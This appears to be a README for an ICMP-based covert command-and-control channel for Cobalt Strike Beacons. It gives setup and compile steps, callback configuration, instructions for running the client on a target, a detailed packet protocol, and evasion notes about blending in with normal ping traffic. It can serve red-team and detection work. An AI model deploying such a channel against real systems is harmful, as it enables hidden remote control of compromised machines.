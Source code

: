 # ICMP C2 Protocol Overview

An ICMP channel for Beacons, implemented using Cobalt Strike’s External C2 framework.

Check out the video here:


## Key Concepts

- **ICMP Echo Request (Type 8)**: Used by the client (“agent”) to signal the server (“controller”) and request data.
- **ICMP Echo Reply (Type 0)**: Used by the controller to embed and send replies (including large payloads) back to the client.
- **TAG (4 bytes)**: A fixed 4‐byte marker (e.g. `RQ47`) prepended to every ICMP payload, so that unrelated OS pings or network noise are ignored.
- **ICMP_PAYLOAD_SIZE (default 1000 bytes)**: Defines how many bytes we can carry in each ICMP packet’s data‐field. In both `controller.py` and `client_x86.c`, this is set to 1000 by default.  
    > Opsec: Windows default payload size is 32 bytes, where UNIX is 52. 
- **Chunking**: When the controller needs to send more data than fits in a single ICMP payload (1000 bytes), it splits the payload into fragments of up to **996** bytes each (ICMP_PAYLOAD_SIZE – TAG_SIZE = 1000 – 4). Each fragment still carries the same 4‐byte tag.

---

# Setup:

1. **Install dependencies:**

   ```bash
   sudo apt install libpcap0.8-dev
   ```

   ```bash
   pip install -r Controller/Python/requirements.txt
   ```

2. **Start an External C2 beacon in Cobalt Strike (TeamServer).**

3. **Edit the following fields in these files to fit your enviornment:**

   - **`Controller/Python/controller.py`:**
     ```python
     TEAMSERVER_IP   = "10.10.10.21"  # Change to your TeamServer’s IP (e.g. 127.0.0.1 if running locally)
     TEAMSERVER_PORT = 2222          # Change to TeamServer’s listening port
     # (These must stay in sync with how your Beacon is configured.)
     ICMP_TAG = "RQ47"              # The ICMP tag, MUST match client

     BEACON_PIPENAME = "foobar"     # Name of pipe to communicate over between the Beacon & Client
     BEACON_ARCH = "x86"            # what architecture is the client - used for payload generation
     ```
   - **`client_x86.c`:**
     ```c
     #define ICMP_CALLBACK_SERVER "172.19.241.197"  // Change to your Controller’s IP
     #define ICMP_PAYLOAD_SIZE      1000           // Must match controller.py‘s ICMP_PAYLOAD_SIZE
     #define ICMP_TAG               "RQ47"         // 4‐byte tag (can be changed, but must match controller)
     #define PIPENAME               "\\\\.\\pipe\\foobar"  // Named pipe as configured by the Controller’s pipename
     ```

   There are other tunable constants in both files (e.g. `SLEEP_TIME` in the client, `PIPENAME`, etc.). Review each file’s top‐section comments for details.

4. **Compile the client (Windows build target):**

   ```bash
   i686-w64-mingw32-gcc client_x86.c -o client_x86.exe -lws2_32
   ```
   > You may also try a 64-bit MinGW compile (`x86_64-w64-mingw32-gcc ...`) but only the 32-bit build has been fully tested.

5. **Run the controller:**

   ```bash
   python3 Controller/Python/controller.py
   ```

6. **Run the compiled client on the target:**

   ```bash
   client_x86.exe
   ```

---

## Overall Flow

1. **Client: “Seq 0” Size Request**  
   - The client opens a raw ICMP socket.  
   - It builds an ICMP Echo Request (Type 8) whose payload is:
     ```
     [TAG (4 bytes)] [4-byte big-endian integer: total_bytes_expected]
     ```
     and sends it with **sequence number 0**.  
   - Purpose: inform the controller how many bytes of data it plans to receive.

2. **Controller: Immediate “Seq 0” Reply (Size Confirmation)**  
   - The controller’s sniffer sees an ICMP packet where:
     - Type == 8 (Echo Request)  
     - Payload starts with `TAG`  
     - Sequence == 0  
   - It extracts the 4-byte length, allocates a receive buffer of that size, and immediately responds with an ICMP Echo Reply (Type 0), also with **sequence 0**. Its payload is:
     ```
     [TAG (4 bytes)] [4-byte big-endian integer: total_bytes_to_send]
     ```
   - This confirms to the client that the server is ready to send exactly that many bytes.

3. **Controller: Sending Data Fragments (Seq 1…N)**  
   - If the data to send exceeds **1000 bytes**, the controller splits it into fragments of up to **996** bytes each (ICMP_PAYLOAD_SIZE – TAG_SIZE).  
   - For each fragment **i** (starting at 1), the controller sends an ICMP Echo Reply (Type 0) with:
     ```text
     Sequence = i
     Payload  = [TAG][next 996 bytes of data]
     ```
   - If the full payload fits within one chunk (≤ 996 bytes of data), only **seq 1** is used. Otherwise, multiple replies arrive in sequence.

4. **Client: Reassembly Loop**  
   - After sending “seq 0” and waiting, the client’s raw socket filters incoming packets, accepting only:
     - ICMP packets of Type 0 (Echo Reply)  
     - Matching its own process ID  
     - Payload beginning with `TAG`  
   - When **seq 0** arrives, the client reads the 4-byte length, allocates a buffer, and computes how many fragments it expects:
     ```
     data_per_chunk = ICMP_PAYLOAD_SIZE – TAG_SIZE  # = 1000 – 4 = 996
     total_chunks   = ceil(total_size / 996)
     ```
   - For each subsequent reply **seq = 1…total_chunks**, the client copies the data portion (i.e., the bytes after the 4-byte TAG) into the correct offset in the buffer. Once all fragments are received, the full payload is ready for execution or further processing.

5. **Beaconing & TeamServer Forwarding (Seq > 0)**  
   - After the initial C2 payload, the client may send extra frames (e.g., Beacon or task data). Each of these is sent as an ICMP Echo Request (Type 8) with:
     ```
     Sequence = X (> 0)
     Payload  = [TAG][user_data…]
     ```
   - The controller, upon spotting **seq > 0**, strips `TAG` and forwards the remaining bytes to the TeamServer over a TCP socket.  
   - Any response from the TeamServer is sent back in a single ICMP Echo Reply (Type 0) with:
     ```
     Sequence = X
     Payload  = [TAG][TeamServer_response]
     ```
   - This ensures a 1:1 mapping of in‐flight Beacon frames to replies, using the same sequence number to correlate.

---

## Packet Structure Summary

> **Constants** (both sides):
> ```text
> ICMP_PAYLOAD_SIZE = 1000      # bytes available for data+TAG
> TAG_SIZE          = 4         # bytes (e.g. “RQ47”)
> MAX_DATA_PER_CHUNK = 1000 – 4 = 996  # actual data per chunk
> ```
>
> **Note**: The 4-byte TAG is always the first 4 bytes of every payload, so each chunk’s data is at most 996 bytes.

- **Client → Controller (Seq 0)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=8, Code=0, ID=<PID>, Seq=0)
        └─ Payload   : 1000 bytes total
              [ “RQ47” ][ 4-byte total_size ][ padding… (up to 992 bytes) ]
  ```

- **Controller → Client (Seq 0 Reply)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=0)
        └─ Payload   : 1000 bytes total
              [ “RQ47” ][ 4-byte total_size ][ padding… (up to 992 bytes) ]
  ```

- **Controller → Client (Seq i Reply)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ up to 996 bytes of data ]
  ```

- **Client → Controller (Seq i Request, after C2 payload)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=8, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ up to 996 bytes of Beacon/command data ]
  ```

- **Controller → Client (Seq i Reply, TeamServer data)**  
  ```text
  IP Header      : 20 bytes
    └─ ICMP Header  : 8 bytes   (Type=0, Code=0, ID=<PID>, Seq=i)
        └─ Payload   : ≤ 1000 bytes
              [ “RQ47” ][ TeamServer response data ]
  ```

---

<!-- ## Advantages & Caveats

- **Quietness**: Leverages legitimate ICMP traffic.
- **Minimal Dependencies**: Only raw sockets (client) and basic Scapy (controller) are needed.
- **Fragility**: No built-in session encryption or integrity checks—relying solely on the 4-byte TAG for filtering.
- **IDS/Firewall Risk**: Large or unusual ICMP payloads may trigger alerts. We chunk at 996 bytes to avoid IP‐level fragmentation, but the TAG may still look suspicious.

---

## Usage Notes

1. **Client setup**: Must run as an administrator (Windows) to open a raw ICMP socket, or as root (Linux) if you port the code there.
2. **Controller setup**: Needs elevated privileges to sniff/send raw ICMP (via Scapy).
3. **Tag matching**: Both sides ignore any ICMP not starting with `RQ47`. This prevents OS‐generated pings from disrupting the reassembly logic.
4. **Timeouts**: The client’s `recv_icmp_fragments()` has no explicit timeout per‐packet, so if fragments never arrive, it will block indefinitely. You may want to add a `setsockopt(..., SO_RCVTIMEO, ...)` or similar.
5. **TeamServer traffic**: After the initial C2 payload is delivered, any “seq > 0” ICMP Echo Requests are forwarded to the TeamServer over a plain TCP connection; replies come back in Echo Replies.
 -->
